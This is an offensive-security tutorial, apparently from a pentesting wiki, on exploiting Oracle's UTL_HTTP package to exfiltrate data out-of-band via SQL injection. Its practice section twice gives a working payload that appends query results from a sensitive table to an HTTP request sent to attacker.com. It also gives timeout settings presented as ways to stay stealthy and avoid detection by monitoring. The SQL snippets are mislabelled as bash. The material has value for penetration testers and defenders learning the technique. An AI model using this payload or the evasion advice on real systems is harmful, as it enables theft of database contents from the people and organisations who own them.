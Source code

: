 ```yaml
---
title: Exploiting Oracle UTL_HTTP for Data Exfiltration
description: Learn how to exploit Oracle's UTL_HTTP for out-of-band data exfiltration
  via SQL injection.
keywords:
- UTL_HTTP
- Oracle
- SQL injection
- data exfiltration
- UTL_HTTP.REQUEST
- HTTP exfiltration
- set_transfer_timeout
- Oracle database
- security exploitation
---
```


# UTL_HTTP

## Context

This article will guide you through exploiting the Oracle database's `UTL_HTTP` package for out-of-band data exfiltration via SQL injection. The objective is to understand how to leverage this package to send sensitive information from a compromised database to an attacker-controlled server using HTTP requests. For this technique, it is assumed that you already possess knowledge of the HTTP protocol, Oracle database architecture, and Oracle SQL injection techniques.

## Theory

### UTL_HTTP Package in Oracle

The `UTL_HTTP` package in Oracle is a PL/SQL package designed to facilitate HTTP requests from within the Oracle database. This package allows the database to interact with web services over HTTP, enabling diverse applications such as retrieving content from web resources or interacting with RESTful APIs. However, this functionality also introduces a potential vulnerability. If a SQL injection point exists, an attacker can use `UTL_HTTP` to exfiltrate data by sending it over HTTP to an external server that they control.

### HTTP Exfiltration via UTL_HTTP

The primary attack vector using `UTL_HTTP` involves crafting a SQL injection payload that makes an HTTP request to an attacker-controlled URL, appending sensitive data as query parameters. This mechanism allows a steady flow of data from the database directly to the attacker's server. This method is insidiously effective as it uses a legitimate database feature to facilitate the misdirection of sensitive data.

### UTL_HTTP.REQUEST Function

The `UTL_HTTP.REQUEST` function is responsible for sending an HTTP request to a specified URL and returning the response. In the context of exploitation, this function can be manipulated to append sensitive data from the database into the HTTP request sent to an external server. This exploitation takes advantage of the function's intended behavior for malicious purposes.

### UTL_HTTP.set_transfer_timeout

The `UTL_HTTP.set_transfer_timeout` function is used to define the timeout duration for HTTP requests made by the `UTL_HTTP` package. By adjusting this setting, an attacker can optimize the operation to avoid detection or to ensure that the exfiltration process completes swiftly. An improperly set timeout can also lead to denial of service or provide cover against security monitoring.

## Practice

### Exfiltrate data using UTL_HTTP.REQUEST

- Initiate the SQL injection payload to send sensitive data to an attacker's control by executing:
  ```bash
  SELECT UTL_HTTP.REQUEST('http://attacker.com/exfil?data='||(SELECT sensitive_data FROM sensitive_table)) FROM dual;
  ```
  This command crafts a SQL injection that appends the results of querying sensitive data to an HTTP request directed to the attacker’s server.

- To ensure the operation functions unobstructedly, set a short timeout:
  ```bash
  EXEC UTL_HTTP.set_transfer_timeout(5);
  ```
  This step reduces the likelihood of detection by limiting the time the database spends on HTTP operations.

The outcome of these steps should be the successful exfiltration of sensitive data from the database to your specified server, facilitated by HTTP.

### Configure UTL_HTTP for stealthy exfiltration

- Adjust the timeout settings for better performance and stealth:
  ```bash
  EXEC UTL_HTTP.set_transfer_timeout(10);
  ```
  By tweaking the timeout, you can maintain a balance between the stealthiness of your operation and its reliability.

- Execute the refined exfiltration command:
  ```bash
  SELECT UTL_HTTP.REQUEST('http://attacker.com/exfil?data='||(SELECT sensitive_data FROM sensitive_table)) FROM dual;
  ```
  This ensures significant pieces of data are steadily sent out without immediate detection by monitoring systems.

Through these steps, you can achieve a more discreet and efficient data exfiltration process.

## Tools

- **Oracle SQL*Plus**
- **Wireshark**